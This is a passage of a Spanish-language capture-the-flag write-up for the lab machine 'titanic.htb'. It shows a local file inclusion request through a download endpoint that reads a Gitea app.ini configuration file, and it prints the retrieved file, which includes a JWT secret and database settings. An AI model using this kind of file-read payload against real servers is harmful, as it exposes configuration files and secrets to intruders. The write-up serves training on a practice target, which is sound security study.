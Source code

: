 ```bash
```

Si el docker-compose esta corriendo en la maquina podriamos ser capaces de sacar archivos del gitea; probamos a sacar el app.ini en la ruta : `/home/developer/gitea/data/gitea/conf/app.ini`

Usamos el lfi 
```http
http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini
```


```python
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

[indexer]
ISSUE_INDEXER_PATH = /data/gitea/indexers/issues.bleve

[session]
PROVIDER_CONFIG = /data/gitea/sessions
PROVIDER = file

[picture]
AVATAR_UPLOAD_PATH = /data/gitea/avatars
REPOSITORY_AVATAR_UPLOAD_PATH = /data/gitea/repo-avatars

[attachment]
PATH = /data/gitea/attachments

[log]
```